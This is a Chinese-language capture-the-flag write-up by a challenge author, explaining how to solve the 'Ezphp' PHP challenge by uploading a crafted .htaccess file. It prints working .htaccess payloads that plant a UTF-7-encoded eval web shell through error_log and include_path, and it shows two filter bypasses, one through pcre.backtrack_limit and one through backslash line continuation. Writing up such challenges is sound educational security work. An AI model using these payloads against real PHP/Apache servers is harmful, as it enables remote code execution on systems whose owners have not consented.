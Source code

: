 ## 前言
Ezphp设计的初衷是今年wctf的时候，我们在做pdoor这题时发现php-apache这个官方镜像的htaccess文件默认是生效的，因为脑海里一直有固有的htaccess文件默认不生效的想法，然后发现是`/etc/apache2/conf-enabled`目录下有一个docker-php.conf文件里设置了htaccess的生效。然后就想出一个能写htaccess情况下我们能做什么的题。

## 预期解

### htaccess生效
如果尝试上传htaccess文件会发现出现响应500的问题，因为文件尾有Just one chance
这里采用`# \`的方式将换行符转义成普通字符，就可以用`#`来注释单行了。

### 利用文件包含
代码中有一处`include_once("fl3g.php");`，php的配置选项中有include_path可以用来设置include的路径。如果tmp目录下有fl3g.php，在可以通过将include_path设置为tmp的方式来完成文件包含。

### tmp目录写文件
* 如何在指定目录写指定文件名的文件呢？php的配置选项中有error_log可以满足这一点。error_log可以将php运行报错的记录写到指定文件中。
* 如何触发报错呢？这就是为什么代码中写了一处不存在的fl3g.php的原因。我们可以将include_path的内容设置成payload的内容，这时访问页面，页面尝试将payload作为一个路径去访问时就会因为找不到fl3g.php而报错，而如果fl3g.php存在，则会因为include_path默认先访问web目录而不会报错。
* 写进error_log的内容会被html编码怎么绕过？这个点是比较常见的，采用utf7编码即可。

### payload
* 第一步，通过error_log配合include_path在tmp目录生成shell
```
php_value error_log /tmp/fl3g.php
php_value error_reporting 32767
php_value include_path "+ADw?php eval($_GET[1])+ADs +AF8AXw-halt+AF8-compiler()+ADs"
# \
```
* 第二步，通过include_path和utf7编码执行shell
```
php_value include_path "/tmp"
php_value zend.multibyte 1
php_value zend.script_encoding "UTF-7"
# \
```

## 非预期
比赛时候一共有18个队解出Ezphp这题。看了WriteUp后发现只有一个队伍是预期解做的，其余一个队采用了非预期1的方法，剩下的16个队都是用的非预期2。也算是自己出题的一个大失误了，因为本意是不想限制太严看看php的配置选项能完成什么更多的花来，但是非预期2脱离了我的本意Orz。

### 非预期1
因为正则判断写的是`if(preg_match("/[^a-z\.]/", $filename) == 1) {`而不是`if(preg_match("/[^a-z\.]/", $filename) !== 0) {`，因此存在了被绕过的可能。
通过设置.htaccess
```
php_value pcre.backtrack_limit 0
php_value pcre.jit 0
```
导致preg_match返回False，继而绕过了正则判断，filename即可通过伪协议绕过前面stristr的判断实现Getshell。

### 非预期2
惨痛的教训23333
上文提到用`\`来转义换行符来绕过最后加一行的限制。
所以同理你也可以用`\`来绕过stristr处的所有限制233333。型如
```
php_value auto_prepend_fi\
le ".htaccess"
```